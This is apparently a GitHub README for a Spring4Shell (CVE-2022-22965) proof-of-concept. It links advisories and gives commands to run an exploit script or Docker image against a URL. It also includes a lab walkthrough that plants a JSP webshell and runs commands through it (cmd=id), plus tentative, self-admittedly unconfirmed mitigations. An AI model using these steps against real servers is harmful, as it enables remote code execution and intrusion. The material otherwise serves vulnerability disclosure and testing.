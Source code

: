 # Spring4Shell-POC (CVE-2022-22965)
![spring4shell](spring4shell.png)

Spring4Shell (CVE-2022-22965) Proof Of Concept/Information

Early this morning, multiple sources has informed of a possible RCE exploit in the popular java framework spring.

The naming of this flaw is based on the similarities to the infamous Log4j LOG4Shell. 
## Details

* [https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html](https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html)
* [https://bugalert.org/content/notices/2022-03-29-spring.html](https://bugalert.org/content/notices/2022-03-29-spring.html)
* [https://websecured.io/blog/624411cf775ad17d72274d16/spring4shell-poc](https://websecured.io/blog/624411cf775ad17d72274d16/spring4shell-poc)
* [https://www.springcloud.io/post/2022-03/spring-0day-vulnerability](https://www.springcloud.io/post/2022-03/spring-0day-vulnerability)
* [https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)

## Requirements
* Python3 Or Docker

## Usage:
```python
pip install -r requirements.txt
poc.py --help
```

![image](https://user-images.githubusercontent.com/22559547/161398549-05d279b2-51d6-49fb-9245-018747606321.png)

```sh
docker pull ghcr.io/bobtheshoplifter/spring4shell-poc:main
docker run ghcr.io/bobtheshoplifter/spring4shell-poc:main --url https://example.io/
```

![image](https://user-images.githubusercontent.com/22559547/161400099-fb6c4f02-9d48-457a-8c91-041a9a8438b7.png)



## Poc

Found intresting poc here : https://github.com/craig/SpringCore0day/blob/main/exp.py [^1]. & https://twitter.com/vxunderground/status/1509170582469943303

https://github.com/reznok/Spring4Shell-POC - Docker, POC

* clone sample repo from https://spring.io/guides/gs/handling-form-submission/
* you can skip right to the gs-handling-form-submission/complete directory, no need to follow the tutorial
* modify it so that you can build a war file (https://www.baeldung.com/spring-boot-war-tomcat-deploy). build war file :)
* install tomcat9 + java 11 (i did it on ubuntu 20.04 via apt-get)
* deploy the war file
* update the PoC (https://share.vx-underground.org/) to write the tomcatwar.jsp file to webapps/handling-form-submission instead of webapps/ROOT
* run PoC (ignore the URL it gives you for the webshell): python3 exp.py --url http://your.ip.here:8080/handling-form-submission-complete/greeting
* you should see the "tomcatwar.jsp" file now in webapps/handling-form-submission
* hit http://your.ip.here:8080/handling-form-submission/tomcatwar.jsp?pwd=j&cmd=id to see the results

## Mitigations

!!(The following mitigations are only theoretical as nothing has been confirmed)!!

### JDK Version under 9

Cyberkendra informed that JDK versions lower than JDK 9

You can easily check this by running
```sh
java -version
```

That will display something similar to this

```sh
openjdk version "17.0.2" 2022-01-18
OpenJDK Runtime Environment (build 17.0.2+8-Ubuntu-120.04)
OpenJDK 64-Bit Server VM (build 17.0.2+8-Ubuntu-120.04, mixed mode, sharing)
```

If your JDK version is under 8, you might be safe, but nothing is confirmed yet

The following article will be updated

### Check if you are using the spring framework

Do a global search after "spring-beans-*.jar" and "spring*.jar"

```sh
find . -name spring-beans*.jar
```


WIP :=)

[^1]: POC, translated fron this repository.
